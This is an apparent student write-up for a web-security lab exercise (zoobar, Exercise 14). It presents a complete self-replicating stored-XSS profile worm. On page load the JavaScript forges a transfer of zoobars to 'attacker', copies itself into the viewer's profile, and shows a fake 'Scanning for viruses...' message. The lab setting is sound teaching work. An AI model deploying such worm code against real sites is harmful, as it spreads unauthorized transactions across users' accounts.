 
## Part D: Profile worm
### Exercise 14

Inspecting profile page:
Profile content is stored in:
```
<div id="profile"><b>text</b></div>
```

Inspect transfer request:
![Uploading file..._scwsahq9j]()
![](https://i.imgur.com/iLRUnmm.png)

Inspect profile update request:
![](https://i.imgur.com/w6qKvNh.png)
![](https://i.imgur.com/kCHaXXw.png)


The final javascript injected html code is as follows:
```htmlembedded=
<script id="worm">

    window.onload = function () {

        var headerTag = '<script id="worm" type="text/javascript">';
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>";

        var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

        document.getElementById("profile").appendChild(document.createTextNode("Scanning for viruses..."));

        var AjaxTransfer = null;
        AjaxTransfer = new XMLHttpRequest();
        AjaxTransfer.open("POST", "http://localhost:8080/zoobar/index.cgi/transfer", true);
        AjaxTransfer.setRequestHeader(
            "Content-Type", "application/x-www-form-urlencoded"
        )
        AjaxTransfer.setRequestHeader(
            "Referer", "http://localhost:8080/zoobar/index.cgi/transfer"
        )
        AjaxTransfer.send("zoobars=1&recipient=attacker&submission=Send");

        var AjaxProfile = null;
        AjaxProfile = new XMLHttpRequest();
        AjaxProfile.open("POST", "http://localhost:8080/zoobar/index.cgi/", true);
        AjaxProfile.setRequestHeader(
            "Content-Type", "application/x-www-form-urlencoded"
        )
        AjaxProfile.setRequestHeader(
            "Referer", "http://localhost:8080/zoobar/index.cgi/"
        )
        AjaxProfile.send("profile_update=" + wormCode + "&profile_submit=Save");
    }

</script>
```
